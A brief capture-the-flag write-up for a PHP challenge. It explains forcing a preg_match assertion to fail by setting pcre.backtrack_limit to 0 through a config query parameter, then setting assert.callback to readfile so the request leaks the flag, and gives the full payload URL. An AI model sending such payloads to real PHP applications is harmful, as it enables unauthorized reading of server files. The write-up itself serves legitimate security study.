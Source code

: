 ```php
assert(preg_match("/^SEE{.*}$/", $flag), NULL);
```
We want to fail the assertion, for that we can leverage something called backtracing of regex, preg_match() has a backtrace limit of 10000 by default we can reduce it to a low value so that assertion fails. using 

, /?debug&flag=SEE{asdf}&config[pcre.backtrack_limit]=0

Now we can use a file reading function as assert callback

the final payload would be as follows

/?debug&flag=SEE{asdf}&config[pcre.backtrack_limit]=0&config[assert.callback]=readfile

Hence inspecting the request will give us the flag.
